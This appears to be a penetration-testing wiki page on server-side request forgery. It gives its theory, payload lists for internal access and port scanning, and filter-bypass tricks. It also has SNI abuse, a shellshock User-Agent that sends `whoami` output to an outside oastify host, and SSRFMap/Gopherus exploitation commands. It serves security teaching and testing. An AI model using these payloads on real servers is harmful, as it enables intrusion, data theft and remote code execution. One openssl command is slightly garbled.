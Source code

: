 ```yaml
---
authors: ShutdownRepo
---
```


# SSRF (Server-Side Request Forgery)

## Theory

A Server-Side Request Forgery (a.k.a. SSRF) is a web vulnerability allowing attackers to make the server-side application do certain requests. This vulnerability can lead to unauthorized actions, Sensitive Information Disclosure and even RCE (Remote Code Execution).

> [!TIP]
> SSRF is to [file inclusion](../file-inclusion/index) since both vulnerabilities can be exploited to access external or internal content. The difference resides in the fact that file inclusion vulnerabilities rely on code inclusion functions (e.g. `include()` in PHP) while SSRF ones on functions that only handle data (e.g. `file_get_contents()`, `fopen()`, `fread()`, `fsockopen()`, `curl_exec()` in PHP), meaning file inclusion vulnerabilities will usually lead to RCE much more easily that SSRF ones.

## Practice

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.

### Bypassing filters

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

::: tabs

=== Blacklist input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :


```
http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
http://2130706433 # Decimal version of localhost
http://0x7f000001/ # Hexadecimal version of localhost

```


* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.

> [!TIP]
> The following "URL Format Bypass" cheatsheet gives lots of examples to bypass filters: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md)


=== Whitelist input filters

### Pattern validation

In this context, a whitelist-based input filter can be used to restrict the types of URLs that a user can submit. For example, the filter might only allow URLs that match the whitelist pattern. In this situation, you can bypass the filter using various techniques :

* Using the `@` character in a URL like this :
 * `https://{url}@{target_host}`
* Using the `#` character to indicate that the first field is interpreted as a URL fragment like this :
 * `https://{target_host}#{url}`
* Using the DNS name to place required input into a fully-qualified DNS like this :
 * `https://{url}.{target_host}`
* URL encode, even double URL encoding this special character to bypass the filter
* Use a combination of all this technique like using the `#@` characters.

### [ORED (Open Redirect)](#ored-open-redirect-combination) combination

In the case the argument is strictly validated and doesn't allow for bypasses relying on pattern validation, if one of the whitelisted app's pages is vulnerable to an [ORED (Open Direct)](#ored-open-redirect-combination), it could be used to make the SSRF possible anyway.

The server would request the ORED-vulnerable page through the SSRF vulnerability, and it would then be redirected to the actual target page, thanks to the lesser-filtered Open Redirect.

![](assets/SSRF.png)





:::


### Blind SSRF vulnerabilities 

A blind SSRF vulnerability is a type of vulnerability that arises when an application makes a request to an external resource using user-supplied input, but the application does not return the response to the user.

It can be achieved to gain full RCE (Remote Command Execution).

In order to identify a potential SSRF vulnerability and exploit, multiple tools can be used to pingback the request and see the response.

* [Burp Suite Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [pingb](http://pingb.in/)
* [canarytokens](https://canarytokens.org/generate)
* [interactsh](https://github.com/projectdiscovery/interactsh)
* [webhook](http://webhook.site/)
* [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)
* An extension to add to Burp Suite, called "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)", that adds non-invasive payloads into outgoing HTTP requests' headers in order to detect SSRF vulnerabilities if and when the target pingbacks to the collaborator endpoint.

> [!TIP]
> An effective way to abuse blind SSRF is to combine it with a shellshock vulnerability ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)). See the following resource for more details: [PortSwigger Lab: Blind SSRF with shellshock](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation). The "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)" extension can be used to detect and abuse this as well.

### SSRF via SNI data from certificate

The configuration below is insecure and allows to connect to an arbitrary backend, since the SNI field value is used directly as the address of the backend.

```json
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

With this insecure configuration, it is possible to exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field. For example, the following command would force the server to connect to `internal.host.com`:

```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlfbash
```

> More information about this on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate).

### SSRF with Command Injection

It is possible to use SSRF that return the command output inside an out of band connection as follows.

```
url=http://zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com?`whoami`
User-Agent: () { :; }; /bin/nslookup $(whoami).zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com
```

[SSRFMap](https://github.com/swisskyrepo/SSRFmap) (Python) is a tool used to ease the exploitation of SSRFs. [Gopherus](https://github.com/tarunkant/Gopherus) (Python) can be used as well to gain RCE (Remote Code Execution) by generating Gopher payloads.


```bash
# using SSRFMap
python3 ssrfmap.py -r data/request.txt -p url -m readfiles

# using Gopherus
gopherus --exploit mysql # It only asks username of the MySQL user
	 --exploit postgresql # It only asks username of the Postgres user and database name
	 --exploit fastcgi # It only asks for a file which must be present in the victim system(preferable .php file)
	 --exploit redis # Get a reverse or php shell to overwrite the file in the system
	 --exploit zabbix # If port 10050 is open and EnableRemoteCommands = 1, then it is possible to run shell command
	 --exploit pymemcache # Python deserialization issue that lead to RCE
	 --exploit rbmemcache # Ruby deserialization issue that lead to RCE
	 --exploit phpmemcache # PHP deserialization issue that lead to RCE
	 --exploit dmpmemcache # Dump memory cache content
	 --exploit smtp # If port 25 is open and we can access it then, we can send message to anyone as victim user by generating email payload
```


## Resources

[https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)

[https://portswigger.net/web-security/ssrf/blind](https://portswigger.net/web-security/ssrf/blind)

[https://owasp.org/www-community/attacks/Server_Side_Request_Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
